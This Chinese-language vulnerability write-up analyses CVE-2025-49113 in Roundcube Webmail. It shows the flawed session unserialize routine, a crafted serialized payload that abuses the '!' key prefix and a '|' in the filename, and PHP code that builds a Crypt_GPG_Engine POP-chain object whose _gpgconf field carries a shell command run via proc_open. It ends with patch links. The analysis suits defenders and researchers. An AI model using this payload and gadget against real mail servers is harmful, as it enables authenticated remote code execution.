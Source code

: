 #  CVE-2025-49113 Roundcube Webmail反序列化漏洞分析   
 台下言书   2025-06-05 11:18  
  
## 简介  
  
**Roundcube Webmail**  
 是一款开源、基于 Web 的电子邮件客户端，旨在为用户提供简洁而强大的邮件管理工具。  
## 影响版本  
- **Roundcube Webmail < 1.5.10**  
  
- **1.6.0 ≤ Roundcube Webmail < 1.6.11**  
  
## 漏洞分析  
### 1.反序列化入口点  
  
通过查看官方github  
仓库的commit  
，发现核心补丁是对请求参数 _form  
 进行了严格的符号校验，禁止其包含特定特殊字符。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1jVDREBrXTvqVUWrLzWInUDLicaRLrPliba2w6JPicpvzQzuHvMeg1DtWibUYoTniamXK2jEWiaS3zlUkRIrRqh5k6pw/640?wx_fmt=png&from=appmsg "")  
  
  
定位到关键入口文件 upload.php  
，其功能是处理文件上传。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1jVDREBrXTvqVUWrLzWInUDLicaRLrPlibcUtTTkIHhohMNrQibIib0cx5c9dKwwS11iaEME8SsZwf7hrkayFnyU8cA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1jVDREBrXTvqVUWrLzWInUDLicaRLrPlibd5dr2hhgyO7lkVcfIh1pcQBKhw3Mf3rw8nIs26Y4cib4Aic0MV17p3nA/640?wx_fmt=png&from=appmsg "")  
  
  
除了上传文件过程中引用到_form  
 参数值，只有$rcmail->session->append($type . '.files', $id, $attachment);  
这条语句调用了由_form  
参数生成的$type  
，跟进去分析append  
方法的细节。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1jVDREBrXTvqVUWrLzWInUDLicaRLrPlibb8L5JETfTnicKxfSo89ddm8PbqVUNJ7mXo5vmfKvB8PUa4KXgUBlf4Q/640?wx_fmt=png&from=appmsg "")  
  
  
在rcube_session.php  
文件中，可以看到php  
常用的反序列化函数unserialize  
。结合漏洞披露信息，可以猜测漏洞的关键触发点就在该文件中。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1jVDREBrXTvqVUWrLzWInUDLicaRLrPlibkcKTB5W8DZZJMGxtHYrrmIZr7FZ3XHyycjGfH9WibdjI8JdMib6DtKOg/640?wx_fmt=png&from=appmsg "")  
  
  
rcube_session  
类通过session_set_save_handler  
函数将自定义的函数注册到handler  
中，实现了session  
的自定义序列化与反序列化过程。  
```
public staticfunction unserialize($str){    $str    = (string) $str;    $endptr = strlen($str);    $p      = 0;    $serialized = '';    $items      = 0;    $level      = 0;    while ($p < $endptr) {        $q = $p;        while ($str[$q] != '|')            if (++$q >= $endptr)                break2;        if ($str[$p] == '!') {            $p++;            $has_value = false;        }        else {            $has_value = true;        }        $name = substr($str, $p, $q - $p);        $q++;                $serialized .= 's:' . strlen($name) . ':"' . $name . '";';        if ($has_value) {            for (;;) {                $p = $q;                switch (strtolower($str[$q])) {                case'n': // null                case'b': // boolean                case'i': // integer                case'd': // decimal                    do $q++;                    while (($q < $endptr) && ($str[$q] != ';'));                    $q++;                    $serialized .= substr($str, $p, $q - $p);                    if ($level == 0) {                        break2;                    }                    break;                case'r': // reference                    $q+= 2;                    for ($id = ''; ($q < $endptr) && ($str[$q] != ';'); $q++) {                        $id .= $str[$q];                    }                    $q++;                    // increment pointer because of outer array                    $serialized .= 'R:' . ($id + 1) . ';';                    if ($level == 0) {                        break2;                    }                    break;                case's': // string                    $q+=2;                    for ($length=''; ($q < $endptr) && ($str[$q] != ':'); $q++) {                        $length .= $str[$q];                    }                    $q+=2;                    $q+= (int)$length + 2;                    $serialized .= substr($str, $p, $q - $p);                    if ($level == 0) {                        break2;                    }                    break;                case'a': // array                case'o': // object                    do $q++;                    while ($q < $endptr && $str[$q] != '{');                    $q++;                    $level++;                    $serialized .= substr($str, $p, $q - $p);                    break;                case'}': // end of array|object                    $q++;                    $serialized .= substr($str, $p, $q - $p);                    if (--$level == 0) {                        break2;                    }                    break;                default:                    returnfalse;                }            }        }        else {            $serialized .= 'N;';            $q += 2;        }        $items++;        $p = $q;    }    return unserialize('a:' . $items . ':{' . $serialized . '}');}
```  
  
该自定义的反序列化函数unserialize  
函数中有一个逻辑错误。  
  
正常的序列化数据如下，其中，可控的点为identity  
是由_form  
参数生成的，2.png  
是文件名。  
```
identity|a:1:{s:5:"files";a:1:{s:20:"11749052287082347400";a:6:{s:4:"path";s:55:"/tmp/roundcube-temp/RCMTEMPattmnt68406b7fc8ff4551457662";s:4:"size";i:228;s:4:"name";s:5:"2.png";s:8:"mimetype";s:9:"image/png";s:5:"group";s:8:"identity";s:2:"id";s:20:"11749052287082347400";}}}
```  
  
自定义函数在遇到|  
后，会跳出while  
循环，将其当作键名。随后判断键名是否以!  
开头，如果以此开头，那就直接跳过if  
语句的第一个分支，直接追加N;  
，进入下一个解析环节，寻找下一个|  
出现的位置作为解析的起始点，这就导致容易错位解析，从而控制反序列化流程。 恶意的序列化数据如下，_form  
构造!identity  
值，文件名则取2|s:2:"12  
，就能控制反序列化流程。  
```
!identity|a:1:{s:5:"files";a:1:{s:20:"11749052882029285800";a:6:{s:4:"path";s:55:"/tmp/roundcube-temp/RCMTEMPattmnt68406dd247794593223028";s:4:"size";i:228;s:4:"name";s:10:"2|s:2:"12"";s:8:"mimetype";s:9:"image/png";s:5:"group";s:9:"!identity";s:2:"id";s:20:"11749052882029285800";}}}
```  
### 2. 构造POP链  
  
在源码中搜索 __destruct  
，可以看到 Crypt_GPG_Engine  
 类的 __destruct  
 方法会调用 _closeIdleAgents  
，而 _closeIdleAgents  
 会调用 proc_open  
 执行命令。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1jVDREBrXTvqVUWrLzWInUDLicaRLrPlibeVbx0GDJMiceGWjpygUI4jQZl0fufBC53OlRNP1NfLbY8GnbX2w67Dw/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1jVDREBrXTvqVUWrLzWInUDLicaRLrPlibsNiaicIqwibnPqAQIwGmnYlgOQLvKibBtMarnmbkRdNgE4dCHw0UFdGP6w/640?wx_fmt=png&from=appmsg "")  
  
  
**构造序列化数据的 PHP 代码如下：**  
```
<?phpclass Crypt_GPG_Engine{    const CHUNK_SIZE = 65536;    const FD_INPUT = 0;    const FD_OUTPUT = 1;    const FD_ERROR = 2;    const FD_STATUS = 3;    const FD_COMMAND = 4;    const FD_MESSAGE = 5;    const MIN_VERSION = '1.0.2';    public $_strict = false;    public $_debug = false;    public $_binary = '';    public $_agent = '';    public $_gpgconf = "id > pwned;";    public $_homedir = '';    public $_publicKeyring = '';    public $_privateKeyring = '';    public $_trustDb = '';    public $_pipes = array();    public $_agentPipes = array();    public $_openPipes = array();    public $_process = null;    public $_agentProcess = null;    public $_agentInfo = null;    public $_isDarwin = false;    public $_digest_algo = null;    public $_cipher_algo = null;    public $_compress_algo = null;    public $_options = array();    public $_commandBuffer = '';    public $_processHandler = null;    public $_statusHandlers = array();    public $_errorHandlers = array();    public $_input = null;    public $_message = null;    public $_output = '';    public $_operation;    public $_arguments = array();    public $_version = '';}$test = new Crypt_GPG_Engine();echo serialize($test);
```  
### 3. 鉴权逻辑分析  
  
回头分析鉴权相关内容，网站根目录下 index.php  
 文件：  
  
可以看到从前端获取_task  
，_action  
参数，并对其做判断。如果_task  
为login  
或logout  
，_action  
为login  
或oauth  
，则不做身份校验；其他的_task  
一律要对$_SESSION  
里的user_id  
做判断。该漏洞的触发点在settings  
的_task  
，因此需要认证通过的用户。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1jVDREBrXTvqVUWrLzWInUDLicaRLrPlibQiaTVDQhl3vNKaKbhCAUcj16wCzCdJT7iasX68NI67C4hehP3fNOTiaUQ/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1jVDREBrXTvqVUWrLzWInUDLicaRLrPlibOticYRbLb6L7oxQnCDdmh5nn4bNqmWDgzOtMOiaK4xX4tPJCKAJnsB7Q/640?wx_fmt=png&from=appmsg "")  
## 修复方案  
  
官方已发布修复方案，受影响的用户建议及时更新至对应安全版本：  
- **Roundcube 1.5.x:**  
  
https://github.com/roundcube/roundcubemail/releases/tag/1.5.10  
  
- **Roundcube 1.6.x:**  
  
https://github.com/roundcube/roundcubemail/releases/tag/1.6.11  
  
>   
> ⚠️ 此漏洞需要用户手动更新，官方不会强制推送更新。  
  
  
  
  
  
